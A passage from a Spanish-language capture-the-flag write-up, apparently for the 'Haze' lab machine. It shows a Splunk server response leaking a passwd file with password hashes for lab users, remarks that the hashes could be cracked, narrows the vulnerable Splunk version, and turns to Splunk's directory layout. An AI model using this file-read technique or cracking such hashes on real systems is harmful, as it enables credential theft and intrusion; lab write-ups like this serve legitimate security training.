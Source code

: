 ```bash
< Accept-Ranges: bytes
< Set-Cookie: session_id_8000=f40a5bcc5c0f2ba0b0bc7b06a640280c8ed1caec; expires=Fri, 27 Jun 2025 07:22:59 GMT; HttpOnly; Max-Age=3600; Path=/
< Server: Splunkd
< 
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```

¡Es vulnerable! Estos hashes podriamos intentar crackearlos pero ningún usuario tiene una contraseña débil. Ahora sabemos que la versión está entre la 9.2.2, 9.1.5 y 9.0.10 o inferiores.

Sin embargo, si nos ponemos explorar directorios de Windows como `C:\Windows`, no encontraremos nada útil que nos permita tomar control de algún usuario. Asi que nos concentraremos en el Splunk únicamente.

La estructura de directorios de Splunk, en forma de un árbol seria la siguiente:
